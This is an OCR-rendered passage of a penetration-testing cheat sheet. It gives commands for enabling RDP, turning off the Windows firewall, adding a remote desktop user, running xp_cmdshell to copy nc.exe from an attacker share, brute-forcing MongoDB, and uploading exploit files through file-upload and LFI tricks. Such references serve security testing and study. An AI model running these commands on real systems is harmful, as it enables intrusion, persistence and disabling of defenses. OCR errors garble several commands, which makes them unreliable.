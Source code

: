   # enable RDP and add user
  reg add "HEY_LOCAL _MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" / fDenyTSConnections /t REG_DWORD /d 0 /f
  reg add HKLM\System \CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f netsh advfirewall set allprofiles state off
  net localgroup "remote desktop users" <USER. NAME> / add
  ```

## SQL connections

- `mysql --host=localhost --user=proftpd --password=protfpd_with_MYSQL_password`
- `psql -h IP -p 5432 -U root -W`
- `mssqlclient.py -p 1435 username:password@IP`
  - `xp_cmdshell whoami /all`
  - `xp_cmdshell copy \\ATTACKERIP\nc\nc.exe c:\Users\Public\nc.exe`
- `impacket-mssqlclient username:'password'@127.0.0.1 -windows-auth`

**SQLite3**
- If you have found a db, you can open it manually or with `sqlite3 Audit.db`
- Second option, commands: `.tables`, `selecet * fom tableOfUsers;`

**MongoDB**
- `mongo --host IP:PORT`
- `mongo <database> -u <username> -p '<password>'`
- `nmap -n -sV --script mongodb-brute -p 27017 IP`
- `show dbs`
- `use dbname`
- `db.users.find()`
- https://book.hacktricks.xyz/network-services-pentesting/27017-27018-mongodb


## Reverse engineering

- [DNSpy](https://github.com/dnSpy/dnSpy), .NET debugger
- [Rider](https://www.jetbrains.com/rider/download/#section=windows)
- [See hardcoded secrets](#hardcoded-secrets)
- `wine /home/kali/Documents/dnSpy/dnSpy.exe`
- Remove '\r' carriage return:
  `tr -d '\r' < inputfile.txt > outputfile.txt && mv outputfile.txt inputfile.txt`
  - The major minor symbols must be kept
  - alternative: `dos2unix 46527.sh`


**Brainfuck**
- Brainfuck example: `++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.`
- Deobfuscator: https://www.splitbrain.org/_static/ook/


## File upload

- for gifs: `GIF87a;` or `GIF89a;`
- remember that if you can do an arbitrary upload, then try to view the files with an LFI with `zip://`, `php://` or other wrappers

**cURL**
- `curl -X POST -F "file=@/path/to/your/file" http://example.com/postinfo.html`
- `curl -X PUT --upload-file exploit.html http://example.com/exploit.html`
- `curl -X MOVE --header 'Destination:http://example.com/exploit.asp' 'http://exploit.com/exploit.html`

  ```